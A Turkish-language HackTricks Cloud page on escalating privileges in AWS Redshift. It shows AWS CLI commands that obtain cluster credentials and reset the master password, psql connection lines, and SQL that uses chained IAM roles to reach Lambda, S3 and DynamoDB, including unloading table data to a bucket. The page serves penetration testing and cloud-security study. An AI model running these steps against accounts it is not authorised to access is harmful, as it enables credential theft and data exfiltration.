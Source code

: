 # AWS - Redshift Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Redshift

RDS hakkında daha fazla bilgi için:

{% content-ref url="https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlar%C4%B1/aws-redshift-enum.md" %}
[https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanları/aws-redshift-enum.md](https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlar%C4%B1/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Bu izinlerle **tüm küme bilgilerini** (ad ve küme kullanıcı adı dahil) alabilir ve erişmek için **kimlik bilgilerini** alabilirsiniz:

```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**Potansiyel Etki:** Veritabanlarının içinde hassas bilgiler bulunabilir.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Bu izinlerle **tüm kümelerin bilgilerini alabilir** ve **erişmek için kimlik bilgilerini alabilirsiniz**.\
Unutmayın ki postgres kullanıcısı, kimlik bilgilerini almak için kullanılan IAM kimliğinin sahip olduğu izinlere sahip olacaktır.

```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**Potansiyel Etki:** Veritabanlarında hassas bilgiler bulunabilir.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

AWS CLI üzerinden iç postgres (redshift) kullanıcısının **ana parolasını değiştirmek** mümkündür (Bu izinlere ihtiyacınız olduğunu düşünüyorum, ancak henüz bunları test etmedim):

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**Potansiyel Etki:** Veritabanları içinde hassas bilgiler bulunabilir.

## Harici Hizmetlere Erişim

{% hint style="warning" %}
Tüm aşağıdaki kaynaklara erişmek için, **kullanılacak rolü belirtmeniz gerekecektir**. Bir Redshift kümesi, **ARN'yi bildiğiniz takdirde kullanabileceğiniz bir AWS rolü listesi atanmış olabilir** veya varsayılan olarak atananı kullanmak için sadece "**default**" olarak ayarlayabilirsiniz.

Ayrıca, Redshift [**burada açıklandığı gibi**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), rolleri birleştirmenize (ilk rol ikincisini varsayabildiği sürece) izin verir ve daha fazla erişim elde etmek için sadece **virgülle** ayırarak bunları birleştirebilirsiniz: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdalar

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) adresinde açıklandığı gibi, redshift'ten bir lambda fonksiyonunu çağırmak mümkündür. Bunun için şu şekilde bir şey yapabilirsiniz:

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```

### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) adresinde açıklandığı gibi, S3 kovalarına **okuma ve yazma işlemleri** yapmak mümkündür:

```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```

### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) adresinde açıklandığı gibi, dynamodb'den veri almak mümkündür:

```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

{% hint style="warning" %}
Verileri sağlayan Amazon DynamoDB tablosu, AWS Bölgesi'nde kümenizle aynı şekilde oluşturulmalıdır, ancak Amazon DynamoDB tablosunun bulunduğu AWS Bölgesini belirtmek için [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) seçeneğini kullanabilirsiniz.
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html) adresini kontrol edin.

## Referanslar

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
